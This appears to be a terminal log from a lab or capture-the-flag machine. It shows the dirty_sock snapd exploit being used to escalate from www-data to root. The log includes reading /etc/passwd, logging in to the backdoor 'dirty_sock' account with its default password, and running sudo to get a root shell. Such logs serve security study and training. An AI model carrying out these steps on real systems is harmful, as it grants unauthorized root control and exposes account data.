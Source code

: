 ```sh
[+] Slipped dirty sock on random socket file: /tmp/kqjibochxd;uid=0;
[+] Binding to socket file...
[+] Connecting to snapd API...
[+] Deleting trojan snap (and sleeping 5 seconds)...
[!] System may not be vulnerable, here is the API reply:


HTTP/1.1 401 Unauthorized
Content-Type: application/json
Date: Mon, 26 Apr 2021 23:56:54 GMT
Content-Length: 119

{"type":"error","status-code":401,"status":"Unauthorized","result":{"message":"access denied","kind":"login-required"}}
www-data@petshop:/tmp/dirty_sock-master$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
mysql:x:105:108:MySQL Server,,,:/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:109:114::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
robyn:x:1000:1000:Robyn Mackenzie,,,:/home/robyn:/bin/bash
ftp:x:111:117:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
jellyfin:x:112:118:Jellyfin default user,,,:/var/lib/jellyfin:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
dirty_sock:x:1001:1001::/home/dirty_sock:/bin/bash

www-data@petshop:/tmp/dirty_sock-master$ su dirty_sock
su dirty_sock
Password: dirty_sock

dirty_sock@petshop:/tmp/dirty_sock-master$ id
id
uid=1001(dirty_sock) gid=1001(dirty_sock) groups=1001(dirty_sock),27(sudo)
dirty_sock@petshop:/tmp/dirty_sock-master$ sudo su root
sudo su root
root@petshop:/tmp/dirty_sock-master# cd
cd
root@petshop:~# ls
```